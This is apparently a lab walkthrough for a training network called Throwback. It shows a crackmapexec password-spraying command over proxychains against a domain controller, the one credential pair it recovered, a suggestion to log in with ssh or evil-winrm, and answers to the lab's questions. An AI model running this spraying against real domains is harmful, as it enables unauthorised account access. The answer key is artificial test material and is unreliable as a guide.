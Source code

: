 # So we're doing this again....

Now that we have dumped a list of users on the domain we need to generate a wordlist of users and attempt to password spray.   


## Password Spraying with crackmapexec


```shell
proxychains crackmapexec smb 10.200.34.117 -u domain_user.txt -p passwords.txt
```

We get only one valid DC user credential pair
```
JeffersD:Throwback2020
```

- Try to ssh or evil-winrm into the domain controller as we have got the confirmation of JeffersD being a user on the domain controller.


## Questions
1. What user was successfully password sprayed? 
`JeffersD`

2. What was the password for the user?
`Throwback2020`

